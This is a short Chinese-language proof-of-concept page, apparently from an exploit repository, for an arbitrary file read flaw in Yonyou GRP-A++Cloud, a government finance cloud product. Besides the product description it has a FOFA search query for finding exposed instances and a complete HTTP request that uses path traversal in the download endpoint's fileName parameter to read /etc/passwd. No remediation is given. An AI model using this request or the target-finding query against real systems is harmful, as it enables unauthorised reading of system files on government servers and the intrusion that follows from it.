 # 用友GRP A++Cloud 政府财务云 任意文件读取漏洞

## 1.漏洞描述

用友 GRP-A++Cloud 政府财务云产品是以政府会计准则和预算管理一体化规范为基准，服务于政府行政事业单位，落实国家信创和行政事业单位内部控制规范要求，支持省级集中部署以及内部、外部业务协同，通过构建云原生服务，支撑业务的持续演化和变革，为政府业财一体化、财务规范化、自动化、智能化服务，打造安全、可靠、可控的信息化运行环境，提升各单位数字化治理能力。

在download页面参数为fileName处存在任意文件的读取漏洞

## 2.搜索语法

```markdown
fofa：body="/pf/portal/login/css/fonts/style.css"
```

## 3.漏洞复现

```markdown
GET /ma/emp/maEmp/download?fileName=../../../etc/passwd  HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Wed, 11 Oct 2023 05:16:05 GMT
Connection: close


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/c568e13e-8a01-4c07-acd0-ad0e543136d5)

